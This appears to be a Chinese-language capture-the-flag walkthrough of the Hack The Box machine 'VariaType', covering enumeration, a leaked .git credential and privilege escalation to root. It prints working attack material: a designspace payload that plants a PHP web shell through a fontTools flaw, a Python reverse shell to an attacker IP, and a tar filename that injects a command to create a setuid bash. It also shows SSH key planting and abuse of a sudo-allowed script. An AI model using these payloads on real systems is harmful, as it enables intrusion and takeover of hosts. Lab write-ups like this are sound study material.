# HTB Season 10 - VariaType

## 信息收集

### 端口扫描

```shell
nmap -Pn -p- --min-rate 5000 -T4 10.129.197.221
```

```t
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-16 05:17 -0400
Stats: 0:00:47 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 96.67% done; ETC: 05:17 (0:00:02 remaining)
Nmap scan report for 10.129.197.221
Host is up (0.55s latency).
Not shown: 58869 filtered tcp ports (no-response), 6664 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 52.83 seconds
```

### 服务扫描

```shell
nmap -Pn -p 22,80 -sCV 10.129.197.221
```

```t
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-16 05:20 -0400
Nmap scan report for 10.129.197.221
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 e0:b2:eb:88:e3:6a:dd:4c:db:c1:38:65:46:b5:3a:1e (ECDSA)
|_  256 ee:d2:bb:81:4d:a2:8f:df:1c:50:bc:e1:0e:0a:d1:22 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://variatype.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.89 seconds
```

### ffuf子域名枚举

```shell
wfuzz -c -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -u http://variatype.htb -H "HOST:FUZZ.variatype.htb" --hc 301
```




### hosts

```
10.129.197.221 variatype.htb portal.variatype.htb
```

### 目录枚举

* variantype.htb
   ```shell
    dirsearch -u http://portal.variatype.htb
    ```
   无结果
* portal.variatype.htb

    ```shell
    dirsearch -u http://portal.variatype.htb
    ```
    

### git泄露

```shell
git-dumper http://portal.variatype.htb/.git/ git-repo
cd git-repo
git log
git show HEAD
```



得到预设凭证`gitbot:G1tB0t_Acc3ss_2025!`

### CVE-2025-66034

#### Vulnerability Details

 * CVE: CVE-2025-66034
 * Type: Arbitrary File Write + XML Injection in fontTools.varLib
 * Affected: fontTools versions 4.33.0 to 4.60.2

在variantype.htb中发现转换字体功能的介绍,发现使用fontTools引擎



在git log中最新一次提交的日期为2025-12-06 04:59:33,而github上修复版本发布时间为2025-12-09



因此该fontTools版本存在CVE-2025-66034漏洞
`https://github.com/advisories/GHSA-768j-98cg-p3fv`

## 漏洞利用

### 构造.tty文件

```python
from fontTools.fontBuilder import FontBuilder
from fontTools.pens.ttGlyphPen import TTGlyphPen

def create_font(filename, weight=400):
    fb = FontBuilder(1000, isTTF=True)
    fb.setupGlyphOrder([".notdef"])
    fb.setupCharacterMap({})
    pen = TTGlyphPen(None)
    pen.moveTo((0,0))
    pen.lineTo((500,0))
    pen.lineTo((500,500))
    pen.lineTo((0,500))
    pen.closePath()
    fb.setupGlyf({".notdef": pen.glyph()})
    fb.setupHorizontalMetrics({".notdef": (500, 0)})
    fb.setupHorizontalHeader(ascent=800, descent=-200)
    fb.setupOS2(usWeightClass=weight)
    fb.setupPost()
    fb.setupNameTable({"familyName":"Test","styleName":"W"})
    fb.save(filename)

create_font("source-light.ttf", 100)
create_font("source-regular.ttf", 400)
print("[+] Generated source-light.ttf and source-regular.ttf")
```

运行脚本,生成source-light.ttf和source-regular.ttf

### 构造.designspace文件

```xml
<designspace format="5.0">
<axes>
<axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
<labelname xml:lang="en"><![CDATA[<?php system($_GET["cmd"]); ?>]]></labelname>
</axis>
</axes>

<sources>
<source filename="source-light.ttf" name="Light">
<location><dimension name="Weight" xvalue="100"/></location>
</source>
<source filename="source-regular.ttf" name="Regular">
<location><dimension name="Weight" xvalue="400"/></location>
</source>
</sources>

<variable-fonts>
<variable-font name="MyFont" filename="/var/www/portal.variatype.htb/public/files/shell.php">
<axis-subsets><axis-subset name="Weight"/></axis-subsets>
</variable-font>
</variable-fonts>
</designspace>
```

### 上传.designspace文件



### 访问shell.php

访问portal.variatype.htb发现shell.php



访问portal.variatype.htb/files/shell.php?cmd=id



### 反弹shell

```python
# /tmp/1.py

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.12",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

```shell
nc -lvvp 4444
```



## 提权

### steve

#### linpeas



#### pspy64



#### CVE-2024-25082

查看`process_client_submissions.bak`

```shell
#!/bin/bash
#
# Variatype Font Processing Pipeline
# Author: Steve Rodriguez <steve@variatype.htb>
# Only accepts filenames with letters, digits, dots, hyphens, and underscores.
#

set -euo pipefail

UPLOAD_DIR="/var/www/portal.variatype.htb/public/files"
PROCESSED_DIR="/home/steve/processed_fonts"
QUARANTINE_DIR="/home/steve/quarantine"
LOG_FILE="/home/steve/logs/font_pipeline.log"

mkdir -p "$PROCESSED_DIR" "$QUARANTINE_DIR" "$(dirname "$LOG_FILE")"

log() {
    echo "[$(date --iso-8601=seconds)] $*" >> "$LOG_FILE"
}

cd "$UPLOAD_DIR" || { log "ERROR: Failed to enter upload directory"; exit 1; }

shopt -s nullglob

EXTENSIONS=(
    "*.ttf" "*.otf" "*.woff" "*.woff2"
    "*.zip" "*.tar" "*.tar.gz"
    "*.sfd"
)

SAFE_NAME_REGEX='^[a-zA-Z0-9._-]+$'

found_any=0
for ext in "${EXTENSIONS[@]}"; do
    for file in $ext; do
        found_any=1
        [[ -f "$file" ]] || continue
        [[ -s "$file" ]] || { log "SKIP (empty): $file"; continue; }

        # Enforce strict naming policy
        if [[ ! "$file" =~ $SAFE_NAME_REGEX ]]; then
            log "QUARANTINE: Filename contains invalid characters: $file"
            mv "$file" "$QUARANTINE_DIR/" 2>/dev/null || true
            continue
        fi

        log "Processing submission: $file"

        if timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c "
import fontforge
import sys
try:
    font = fontforge.open('$file')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process $file: {e}', file=sys.stderr)
    sys.exit(1)
"; then
            log "SUCCESS: Validated $file"
        else
            log "WARNING: FontForge reported issues with $file"
        fi

        mv "$file" "$PROCESSED_DIR/" 2>/dev/null || log "WARNING: Could not move $file"
    done
done

if [[ $found_any -eq 0 ]]; then
    log "No eligible submissions found."
fi
```

* 脚本只校验外层 ZIP 文件名：脚本的SAFE_NAME_REGEX只检查font_upload_123.zip这个文件名（合规），不会解压 ZIP 检查内部的.ttf 文件名；
* FontForge 自动解析 ZIP 内的.ttf：FontForge 的fontforge.open('font_upload_123.zip')会自动解压 ZIP，读取其中的.ttf 文件，此时解析的是内层恶意文件名；
* 反引号绕过正则限制：反引号（\`）是 Shell 命令执行语法，且不在脚本的正则校验范围内（因为校验的是 ZIP 文件名，不是内层带有\`的文件名），FontForge 解析时会执行反引号命名的命令。

```python
# 构造恶意tar包
import tarfile
import os
exec_command = f"$(cp /bin/bash /tmp/bash && chmod +s /tmp/bash)"
with tarfile.open("poc.tar", "w", format=tarfile.USTAR_FORMAT) as t:
    t.addfile(tarfile.TarInfo(exec_command))
```

上传`poc.tar`-->`portal.variatype.htb/public/files/`

```shell
# attack开启http服务
python -m http.server 80

# 靶机下载poc.tar
wget http://attack/poc.tar

# 等待1min后执行
/tmp/bash -p

# attack构造steve_key.pub
ssh-keygen -t ed25519 -f steve_key

# 创建steve/.ssh目录
mkdir -p /home/steve/.ssh
chmod 700 /home/steve/.ssh

# 写入authorized_keys
wget http://10.10.16.12/steve_key.pub -O /home/steve/.ssh/authorized_keys
chmod 600 /home/steve/.ssh/authorized_keys

# 靶机登录steve
ssh -i steve_key steve@variatype.htb
```



### root

#### sudo提权
```t
steve@variatype:~$ sudo -l
Matching Defaults entries for steve on variatype:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User steve may run the following commands on variatype:
    (root) NOPASSWD: /usr/bin/python3 /opt/font-tools/install_validator.py *
```

将`root_key.pub`改名为`authorized_keys`写入`/root/.ssh/authorized_keys`

```shell
# attack
cd /root/.ssh
ssh-keygen -t ed25519 -f root_key
mv root_key.pub authorized_keys
cd /
python -m http.server 80

# steve
sudo /usr/bin/python3 /opt/font-tools/install_validator.py 'http://10.10.16.12/%2froot%2f.ssh%2fauthorized_keys'

```



```shell
# attack
cd /root/.ssh
ssh -i root_key root@variatype.htb
```

